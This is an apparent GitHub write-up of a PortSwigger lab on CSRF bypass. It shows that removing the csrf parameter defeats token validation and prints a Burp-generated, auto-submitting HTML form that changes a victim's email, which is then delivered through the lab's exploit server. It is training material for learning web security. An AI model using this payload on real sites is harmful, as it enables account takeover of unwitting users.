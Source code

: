 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1bfc7efb-14b0-47ea-9e8f-7433e993cea0)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a309514d-3d65-4e64-8889-7a2c8783ff46)

Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is rejected.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0fe001e7-9450-4137-96cb-a7e6946f6c0e)

Delete the csrf parameter entirely and observe that the request is now accepted

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/15cbb67d-c2aa-49d7-8105-e9860bd04aa9)

Right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/10a03b1b-ccff-43a3-9033-18ede5d623f8)

payload-

```html
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0adf00c3040b709485c9716a003b00c4.web-security-academy.net/my-account/change-email" method="POST">

      <input type="hidden" name="email" value="cyber&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".And then i changed the email from cyber to ananthan.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ee2e7053-5f2e-4d85-88ee-882605076795)


To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/63aee621-9cf4-463c-b368-9ee1ef13c0c5)

Store the exploit, then click "Deliver to victim" to solve the lab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/7a1d9f40-e9f2-49d2-85bc-e5b7ce20ead7)
